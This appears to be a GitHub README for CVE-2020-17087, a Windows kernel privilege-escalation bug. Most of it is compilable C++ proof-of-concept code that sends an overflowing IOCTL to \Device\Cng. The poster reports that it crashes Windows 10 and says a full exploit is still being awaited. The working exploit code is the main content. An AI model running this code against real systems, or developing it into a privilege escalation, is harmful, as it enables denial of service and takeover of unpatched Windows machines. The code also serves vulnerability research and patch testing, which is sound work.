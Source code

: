 # CVE2020-17087
Elevation Of Privileges Proof of Concept for Windows (win7-win10)

A serious EOP Exploit for Windows OS has been released by Google Project Zero.

I have tested it on WIN 10 and it is working i.e it successfully crashes the system.

I have compiled the below POC code ,Check the attached file

    #pragma comment(lib, "ntdll")

    #include <cstdio>
    #include <windows.h>

    int main() {
      HANDLE hCng = CreateFileA("\\\\.\\GLOBALROOT\\Device\\Cng",
        GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);

    if (hCng == NULL) {
      printf("[-] Failed to open \\Device\\Cng: %u\n", GetLastError());
      return 1;
    }

    printf("[+] \\Device\\Cng opened, handle: %p\n", hCng);

    //
    // DataBufferSize overflows when used for allocating memory in
    // cng!CfgAdtpFormatPropertyBlock as (uint16)(DataBufferSize * 6).
    //
    // In this proof-of-concept, an allocation of (uint16)(0x2AAB * 6) = 2
    // bytes is requested while 0x2AAB * 6 = 0x10002 bytes are written to it.
    //
    CONST DWORD DataBufferSize = 0x2AAB;
    CONST DWORD IoctlSize = 4096 + DataBufferSize;
    BYTE *IoctlData = (BYTE *)HeapAlloc(GetProcessHeap(), 0, IoctlSize);

    RtlZeroMemory(IoctlData, IoctlSize);

    *(DWORD*)    &IoctlData[0x00] = 0x1A2B3C4D;
    *(DWORD*)    &IoctlData[0x04] = 0x10400;
    *(DWORD*)    &IoctlData[0x08] = 1;
    *(ULONGLONG*)&IoctlData[0x10] = 0x100;
    *(DWORD*)    &IoctlData[0x18] = 3;
    *(ULONGLONG*)&IoctlData[0x20] = 0x200;
    *(ULONGLONG*)&IoctlData[0x28] = 0x300;
    *(ULONGLONG*)&IoctlData[0x30] = 0x400;
    *(DWORD*)    &IoctlData[0x38] = 0;
    *(ULONGLONG*)&IoctlData[0x40] = 0x500;
    *(ULONGLONG*)&IoctlData[0x48] = 0x600;
    *(DWORD*)    &IoctlData[0x50] = DataBufferSize; // OVERFLOW
    *(ULONGLONG*)&IoctlData[0x58] = 0x1000;
    *(ULONGLONG*)&IoctlData[0x60] = 0;
    RtlCopyMemory(&IoctlData[0x200], L"FUNCTION", 0x12);
    RtlCopyMemory(&IoctlData[0x400], L"PROPERTY", 0x12);

    ULONG_PTR OutputBuffer = 0;
    DWORD BytesReturned;
    BOOL Status = DeviceIoControl(
      hCng,
      0x390400,
      IoctlData,
      IoctlSize,
      &OutputBuffer,
      sizeof(OutputBuffer),
      &BytesReturned,
      NULL
    );

    printf("[+] Ioctl sent, Status: %d, OutputBuffer: %zx\n", Status, OutputBuffer);

    HeapFree(GetProcessHeap(), 0, IoctlData);
    CloseHandle(hCng);

    return 0;
  }
 
 


https://bugs.chromium.org/p/project-zero/issues/detail?id=2104


---------------------Waiting for the development of the exploit ------------------------

